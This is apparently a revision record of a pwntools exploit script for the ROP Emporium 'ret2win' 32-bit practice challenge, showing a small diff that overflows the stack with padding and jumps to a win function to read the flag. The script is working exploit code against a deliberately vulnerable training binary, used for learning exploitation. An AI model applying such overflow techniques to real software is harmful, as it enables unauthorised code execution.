

32bit writeup

Changed region(s): [[0.0, 0.0, 0.9925, 1.0]]

diff --git a/ROPemporium/0-ret2win/exploit32.py b/ROPemporium/0-ret2win/exploit32.py
@@ -8,10 +8,10 @@ p = process('./ret2win32')
 
 junk = ("A"* 44).encode()
 ret2win = p32(0x8048659)
-#ret2win = struct.pack('I',0x8048659)
 
 p.recvuntil('>')
 p.sendline(junk+ret2win)
+#p.interactive()
 p.recvuntil('flag:')
 flag = p.recv()
 log.success("Flag: "+flag.decode('ascii'))
